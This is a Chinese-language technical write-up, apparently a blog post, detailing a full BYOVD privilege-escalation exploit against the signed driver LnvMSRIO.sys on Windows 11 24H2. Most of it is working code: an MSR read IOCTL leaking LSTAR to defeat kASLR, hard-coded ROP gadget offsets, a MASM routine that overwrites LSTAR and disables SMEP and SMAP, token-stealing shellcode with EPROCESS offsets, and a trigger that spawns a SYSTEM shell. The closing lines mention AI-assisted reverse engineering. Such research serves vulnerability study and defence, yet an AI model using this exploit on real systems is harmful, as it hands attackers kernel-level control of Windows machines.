**关键结论**：这个利用方案在 HVCI（Core Isolation）开启的系统上不可行。Quarkslab 博客和本地 PoC 的测试环境均为 Windows 11 24H2 + Core Isolation 关闭。

### 利用策略选择：为什么走 MSR 路径

本驱动同时提供了两条利用路径——物理内存读写（`MmMapIoSpace`）和 MSR 寄存器读写（`__readmsr`/`__writemsr`）。PoC 选择 MSR 路径，原因在于物理内存路径在现代 Windows 上面临更多限制。

具体而言，物理内存路径需要以下前提：

- 必须知道目标结构（如 `EPROCESS`）的**物理地址**——这本身就是一个难题，因为 Windows 内核只暴露虚拟地址
- `MmMapIoSpace` 在较新版本的 Windows 内核中已被限制，过去可用于将任意物理地址转换为虚拟地址的页表项（PTE）映射功能不再被允许
- 暴力搜索物理地址可能导致蓝屏（BSOD），使利用不可靠

相比之下，MSR 路径具有显著优势：

- **不需要知道任何物理地址**——MSR 是 CPU 层面的寄存器，通过编号直接访问
- **LSTAR MSR 存储的是虚拟地址**（`KiSystemCall64()` 的内核虚拟地址），可以直接用于 kASLR 绕过
- **LSTAR 覆写直接劫持控制流**——每个 syscall 都会经过 LSTAR，相当于在系统调用入口"安装"了一个跳板
- **执行速度极快**——一个 `syscall` 指令即可触发，时间窗口极小，其他进程几乎来不及发出会被影响的系统调用

因此，本利用方案的核心策略是：**通过 MSR 读取泄漏内核地址（绕过 kASLR），通过 MSR 写入覆写 LSTAR（劫持控制流），利用 ROP 链绕过 SMEP/SMAP，最终执行 Token 窃取 shellcode 完成提权**。

### 阶段一：信息收集与 kASLR 绕过

利用的第一步是获取设备句柄并收集构建 exploit 所需的地址信息。

设备句柄的获取非常直接——由于前文分析的访问控制缺失，任何进程都可以通过 `CreateFile` 打开 `\\.\WinMsrDev`：

```c
HANDLE hDevice = CreateFile(L"\\\\.\\WinMsrDev",
    GENERIC_READ | GENERIC_WRITE, 0, NULL,
    OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
```

kASLR 绕过的核心是利用 MSR 读取基元泄漏内核地址。LSTAR MSR（索引 `0xC0000082`）存储了 `KiSystemCall64()` 函数的地址，这个函数位于 `ntoskrnl.exe` 中。由于 MSR 是 CPU 层面的寄存器，不受操作系统地址隐藏策略的影响，读取它即可得到一个已知的内核虚拟地址：

```c
// 利用驱动的 MSR 读取 IOCTL 泄漏 LSTAR
uint64_t ReadMSR(HANDLE hDevice, uint32_t Register) {
    IRP_STRUCT_READ_MSR inputBuffer = { 0 };
    inputBuffer.Register = Register;
    uint64_t value = 0;
    DeviceIoControl(hDevice, IOCTL_READ_MSR, &inputBuffer,
        sizeof(inputBuffer), &value, sizeof(value), NULL, NULL);
    return value;
}

// 读取 LSTAR → 得到 KiSystemCall64() 地址
uint64_t kiSystemCall64 = ReadMSR(hDevice, 0xC0000082);

// 内核基址 = KiSystemCall64 地址 - 该函数在 ntoskrnl 中的偏移
uint64_t kernelBase = kiSystemCall64 - 0x6b2b40;  // 偏移因 Windows 版本而异
```

**偏移量的获取方法**：这个偏移是硬编码的，在每次 Windows 更新后可能变化。需要用 WinDBG 在目标机器上确认：

```
0: kd> rdmsr c0000082
msr[c0000082] = fffff801`e76b2b40

0: kd> ? fffff801`e76b2b40 - nt
Evaluate expression: 7023424 = 00000000`006b2b40
```

这表明 `KiSystemCall64` 在当前版本的 `ntoskrnl.exe` 中的偏移为 `0x6b2b40`。用泄漏地址减去此偏移，即可得到内核基址。有了基址后，就可以计算 ROP gadget 的绝对地址：

```c
// 在 ntoskrnl.exe 中找到的 gadget 偏移（通过 rp++ 等工具搜索）
#define GADGET_OFFSET__SWAPGS_IRETQ       0xbabc22  // swapgs; iretq
#define GADGET_OFFSET__MOV_CR4_RCX_RET    0x4ac657  // mov cr4, rcx; ret
#define GADGET_OFFSET__POP_RCX_RET        0x727927  // pop rcx; ret
#define GADGET_OFFSET__SWAPGS_SYSRET_RET  0xbabe2e  // swapgs; sysret; ret

// 计算绝对地址
uint64_t gadget_swapgs_iretq     = kernelBase + GADGET_OFFSET__SWAPGS_IRETQ;
uint64_t gadget_movcr4_rcx_ret   = kernelBase + GADGET_OFFSET__MOV_CR4_RCX_RET;
uint64_t gadget_poprcx_ret       = kernelBase + GADGET_OFFSET__POP_RCX_RET;
uint64_t gadget_swapgs_sysret    = kernelBase + GADGET_OFFSET__SWAPGS_SYSRET_RET;
```

需要注意的是，`EnumDeviceDrivers()` 等 API 在 Windows 11 24H2 中已被修补，不再泄漏内核地址。MSR 读取成为绕过 kASLR 的关键手段。

### 阶段二：ROP 链构建与 SMEP/SMAP 绕过

获得 gadget 地址后，下一步是设计 ROP 链来绕过 SMEP 和 SMAP，使内核能够执行用户态的 shellcode。

**SMEP 绕过的核心思路**：SMEP 由 CR4 寄存器的第 20 位控制。如果该位为 1，内核态不能执行用户态代码。因此，只需要在内核态修改 CR4、将第 20 位清零，就能临时关闭 SMEP。但问题在于——我们无法直接在用户态修改 CR4，必须通过劫持内核执行流来实现。这就是 ROP 链的作用。

**SMAP 绕过的核心思路**：SMAP 可以通过设置 RFLAGS 的 AC（Alignment Check）标志位来临时禁用。在进入内核态之前，通过 `pushfq; pop rbx; or rbx, 0x40000; push rbx; popfq` 序列即可设置 AC 位。

整个 ROP 链的设计如下：

```
LSTAR → [swapgs; iretq]         ← 第一个 gadget：切换 GS 基址 + 从栈恢复上下文
     → [pop rcx; ret]           ← 第二个 gadget：加载 CR4 值（SMEP 关闭）
     → [mov cr4, rcx; ret]      ← 第三个 gadget：关闭 SMEP！
     → 用户态 shellcode          ← 此时 SMEP 已关闭，可以执行了
```

实现这一 ROP 链的关键是 `PrepareStack` 函数（MASM 汇编编写），它在触发 syscall 前精心构建栈帧：

```asm
PrepareStack PROC
    pushfq
    pop r12              ; 保存原始 RFLAGS（shellcode 返回时恢复用）

    pop r13              ; 保存返回地址到 r13（exploit 结束后跳回 main）

    ; ---- 构建供 iretq 消费的栈帧 ----
    push r13             ; shellcode 地址（iretq 返回后跳到这里）
    push rcx             ; mov cr4, rcx gadget 地址
    push 0250ef8h        ; CR4 值（SMEP 关闭：原始值 0x350EF8 的第 20 位清零）

    push 0x18            ; SS（内核态栈段选择子）
    mov rbx, rsp
    add rbx, 8
    push rbx             ; RSP（iretq 执行后的栈指针）

    ; ---- 关闭 SMAP ----
    pushfq
    pop rbx
    and rbx, 0FFh
    or rbx, 040000h      ; 设置 AC 标志 → 禁用 SMAP
    push rbx
    popfq                ; 加载修改后的 RFLAGS

    push 0x10            ; CS（内核态代码段选择子）
    push r8              ; pop rcx; ret gadget 地址

    syscall              ; ← 触发！跳转到 LSTAR 指向的 swapgs; iretq
PrepareStack ENDP
```

`iretq` 指令从栈上依次弹出 RIP、CS、RFLAGS、RSP、SS 五个值来恢复执行上下文。栈帧的布局如下：

```
RSP → ┌─────────────────────────┐ ← syscall 触发后 LSTAR 指向 swapgs; iretq
      │ pop rcx; ret gadget     │ ← iretq 的返回地址 (RIP)
      ├─────────────────────────┤
      │ 0x10                    │ ← CS (内核态代码段)
      ├─────────────────────────┤
      │ RFLAGS (AC=1, SMAP关)   │ ← RFLAGS
      ├─────────────────────────┤
      │ RSP (指向下方)           │ ← RSP (iretq 后的栈位置)
      ├─────────────────────────┤
      │ 0x18                    │ ← SS (内核态栈段)
      ├─────────────────────────┤ ┐
      │ 0x0250EF8 (SMEP关)      │ │ ← pop rcx 加载的值
      ├─────────────────────────┤ │ ← mov cr4, rcx; ret 执行
      │ mov cr4, rcx gadget     │ │
      ├─────────────────────────┤ ┘
      │ shellcode 地址          │ ← SMEP 关闭后跳转到这里
      ├─────────────────────────┤
      │ r13 (返回 main 地址)    │ ← shellcode 结束后的返回点
      └─────────────────────────┘
```

执行过程：`syscall` → LSTAR（已被覆写）→ `swapgs; iretq`（从栈恢复上下文，跳到 `pop rcx; ret`）→ CR4 值弹入 rcx → `mov cr4, rcx`（SMEP 关闭）→ `ret` 跳到 shellcode。

**CR4 值的计算**：SMEP 由 CR4 的第 20 位控制。假设当前系统的 CR4 值为 `0x00350EF8`（可通过 WinDBG 的 `r cr4` 命令查看），则：

```
原始值:   0x00350EF8 = 0000 0011 0101 0000 1110 1111 1000
第20位:                               ↑ SMEP = 1 (开启)

关闭SMEP: 0x00250EF8 = 0000 0010 0101 0000 1110 1111 1000
                                     ↑ SMEP = 0 (关闭)

计算: 0x350EF8 & ~0x100000 = 0x250EF8
```

### 阶段三：Token 窃取 Shellcode

ROP 链将执行流带到了用户态的 shellcode。此时 SMEP 已关闭，内核正在执行用户态内存中的代码。Shellcode 分三段，按顺序执行：

**第一段——恢复 LSTAR**：覆写 LSTAR 后系统处于"瘫痪"状态——任何进程的 syscall 都会跑飞。因此 shellcode 第一件事就是用 `wrmsr` 将原始的 `KiSystemCall64()` 地址写回：

```asm
mov ecx, 0xC0000082              ; LSTAR MSR 索引
mov edx, KiSystemCall64_high32   ; 原始地址高32位
mov eax, KiSystemCall64_low32    ; 原始地址低32位
wrmsr                             ; 恢复系统调用入口
```

**第二段——窃取 SYSTEM Token**：Windows 内核中，每个进程的权限由挂载在 `EPROCESS` 结构体上的 Token（令牌）对象决定。Token 窃取的核心思路是：找到 PID=4 的 System 进程（它始终以最高权限运行），将其 Token 复制到当前进程上。

```c
// Shellcode 逻辑的 C 伪代码（实际以机器码形式嵌入）
// 以下偏移适用于 Windows 11 24H2 特定版本

// 获取当前线程的 EPROCESS
mov rax, gs:[0x188]          // KPCR.PrcbData.CurrentThread (KTHREAD)
mov rax, [rax+0x220]         // KTHREAD.ApcState.Process (EPROCESS)
mov r8, rax                   // 保存当前进程

// 遍历 ActiveProcessLinks 双向链表，寻找 PID=4
loop:
    mov r8, [r8+0x1d8]       // EPROCESS.ActiveProcessLinks.Flink
    sub r8, 0x1d8            // 回退到 EPROCESS 头部
    mov r9, [r8+0x1d0]       // EPROCESS.UniqueProcessId
    cmp r9, 4                 // System 进程的 PID 固定为 4
    jne loop

// 找到 System 进程，窃取其 Token
mov rcx, [r8+0x248]          // 读取 System 进程的 Token (EX_FAST_REF)
and cl, 0xf0                  // 清除引用计数低4位
mov [rax+0x248], rcx          // 写入当前进程的 Token → 提权完成！
```

**关键偏移量及查询方法**：这些偏移量在不同 Windows 版本之间会变化。可以通过 WinDBG 的 `dt` 命令查询当前版本的结构体布局：

```
kd> dt nt!_KPRCB CurrentThread
   +0x008 CurrentThread : Ptr64 _KTHREAD

kd> dt nt!_KTHREAD Process
   +0x220 Process : Ptr64 _KPROCESS     ← 改动频繁！原博客为 0xb8

kd> dt nt!_EPROCESS UniqueProcessId ActiveProcessLinks Token
   +0x1d0 UniqueProcessId    : Ptr64 Void
   +0x1d8 ActiveProcessLinks : _LIST_ENTRY
   +0x248 Token              : _EX_FAST_REF
```

本地 PoC 的 README 中记录了一个实际案例：`KTHREAD.Process` 的偏移从原作者环境中的 `0xb8` 变为了 `0x220`，这直接导致 shellcode 必须修改才能在新版本上工作。

**第三段——ROP 返回用户态**：Token 窃取完成后，需要重新启用 SMEP 并优雅返回用户态。Shellcode 在栈上构建第二个 ROP 链：

```asm
; 构建返回 ROP 链（从栈底到栈顶）
push gadget_swapgs_sysret_ret   ; 最终返回用户态
push r13                        ; 返回 main() 的地址
push gadget_poprcx_ret          ; 加载原始 CR4 值
push gadget_movcr4_rcx_ret      ; 恢复 SMEP
push 0x00350EF8                 ; 原始 CR4 值（SMEP 重新启用）
push gadget_poprcx_ret          ; 再次加载
mov r11, r12                    ; 恢复原始 RFLAGS
ret                             ; 触发 ROP 链
```

### 阶段四：触发与提权

所有准备工作就绪后，exploit 的触发只需要两步：

```c
void ExploitWriteMSRPrimitive(HANDLE hDevice) {
    // ... 前面的信息收集、shellcode 准备 ...

    // 步骤 1：将进程和线程设为最高优先级
    // 覆写 LSTAR 后系统暂时"瘫痪"，任何进程的 syscall 都会崩溃
    // 提高优先级可以最小化这个危险窗口
    SetPriorityClass(GetCurrentProcess(), REALTIME_PRIORITY_CLASS);
    SetThreadPriority(GetCurrentThread(), THREAD_PRIORITY_TIME_CRITICAL);

    // 步骤 2：分配 RWX 内存，写入 shellcode
    unsigned char* Payload = (unsigned char*)VirtualAlloc(
        NULL, 500, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    PreparePayload(Payload);

    // 步骤 3：覆写 LSTAR → 指向第一个 ROP gadget
    WriteMSR(hDevice, MSR_LSTAR, gadget_swapgs_iretq);

    // 步骤 4：触发！构建栈帧 + 执行 syscall
    PrepareStack((uint64_t)Payload, gadget_movcr4_rcx_ret, gadget_poprcx_ret);

    // 步骤 5：如果执行到这里，说明 shellcode 已成功运行并返回
    // 当前进程已拥有 SYSTEM Token
    SpawnCmd();  // 启动 cmd.exe → 继承 SYSTEM 权限
}
```

**触发瞬间的完整执行链**：

```
PrepareStack() 执行 syscall 指令
    │
    ▼ CPU 跳转到 LSTAR（已被覆写为 swapgs; iretq gadget）
    │
    ├─ swapgs          切换 GS 基址到内核态
    ├─ iretq           从栈上弹出 RIP/CS/RFLAGS/RSP/SS
    │      │
    │      ▼ 跳转到 pop rcx; ret
    │      │
    │      ├─ pop rcx  弹出 0x0250EF8（SMEP 关闭的 CR4 值）
    │      ├─ ret
    │      │
    │      ▼ 跳转到 mov cr4, rcx; ret
    │      │
    │      ├─ mov cr4, rcx   ← SMEP 关闭！
    │      ├─ ret
    │      │
    │      ▼ 跳转到用户态 shellcode（此时 SMEP 已关，可执行）
    │      │
    │      ├─ wrmsr           恢复 LSTAR 原始值
    │      ├─ Token 窃取      遍历 EPROCESS 链表，复制 SYSTEM Token
    │      ├─ 构建返回 ROP 链  重新启用 SMEP
    │      ├─ ret             触发返回 ROP 链
    │      │
    │      ▼ pop rcx → mov cr4, rcx  ← SMEP 重新启用
    │      │
    │      ▼ swapgs; sysret   返回用户态 → 回到 main()
    │
    ▼ SpawnCmd() → cmd.exe 以 SYSTEM 权限运行
```

### 完整攻击链全景

将上述四个阶段整合为完整的攻击流程：

```
┌────────────────────────────────────────────────────────────────┐
│ 前提条件                                                        │
│  • 管理员权限（加载驱动 / 打开设备需要）                           │
│  • HVCI / Core Isolation 已关闭                                 │
│  • 目标 Windows 版本的结构体偏移量已知                             │
│  • LnvMSRIO.sys 已加载（合法签名，DSE 不阻止）                     │
└───────────────────────┬────────────────────────────────────────┘
                        ▼
┌────────────────────────────────────────────────────────────────┐
│ Phase 1: 信息收集                                               │
│                                                                 │
│  CreateFile("\\.\WinMsrDev")                  ← 打开无保护的设备│
│       │                                                         │
│       ▼                                                         │
│  ReadMSR(LSTAR=0xC0000082)                    ← IOCTL 0x9C402084│
│       │  泄漏 KiSystemCall64() 内核虚拟地址                      │
│       ▼                                                         │
│  kernel_base = KiSystemCall64 - 0x6b2b40      ← 绕过 kASLR     │
│       │                                                         │
│       ▼                                                         │
│  计算 ROP gadget 绝对地址                                       │
│  = kernel_base + gadget_offset                                 │
└───────────────────────┬────────────────────────────────────────┘
                        ▼
┌────────────────────────────────────────────────────────────────┐
│ Phase 2: 准备                                                   │
│                                                                 │
│  SetPriorityClass(REALTIME)                   ← 最小化崩溃窗口  │
│       │                                                         │
│       ▼                                                         │
│  VirtualAlloc(RWX) + PreparePayload()         ← 构建shellcode  │
│  shellcode = 恢复LSTAR + 窃取Token + ROP返回                    │
└───────────────────────┬────────────────────────────────────────┘
                        ▼
┌────────────────────────────────────────────────────────────────┐
│ Phase 3: 触发                                                   │
│                                                                 │
│  WriteMSR(LSTAR, swapgs_iretq_gadget)         ← IOCTL 0x9C402088│
│       │  覆写系统调用入口                                        │
│       ▼                                                         │
│  PrepareStack():                                                │
│    构建 iretq 栈帧 + 关闭 SMAP (AC标志)                         │
│    syscall → 触发 LSTAR 劫持                                    │
│       │                                                         │
│       ▼                                                         │
│  ROP 链执行:                                                    │
│    swapgs; iretq → pop rcx → mov cr4,rcx      ← 关闭 SMEP     │
│       │                                                         │
│       ▼                                                         │
│  用户态 shellcode 执行:                                         │
│    wrmsr 恢复 LSTAR → 窃取 SYSTEM Token → 重新启用 SMEP       │
│    → swapgs; sysret 返回用户态                                  │
└───────────────────────┬────────────────────────────────────────┘
                        ▼
┌────────────────────────────────────────────────────────────────┐
│ Phase 4: 提权成功                                               │
│                                                                 │
│  SpawnCmd() → cmd.exe 以 NT AUTHORITY\SYSTEM 权限运行           │
│                                                                 │
│  PS C:\> whoami                                                 │
│  nt authority\system                                            │
└────────────────────────────────────────────────────────────────┘
```


## 小结


本意是尝试了解BYOVD的一些基本原理，没想用用IDA-PRO-MCP带来了不少的惊喜，在分析这块AI阅读伪代码带来的效率实在是不可估量，希望本文是个尝试Agent自动挖掘漏洞的开始。
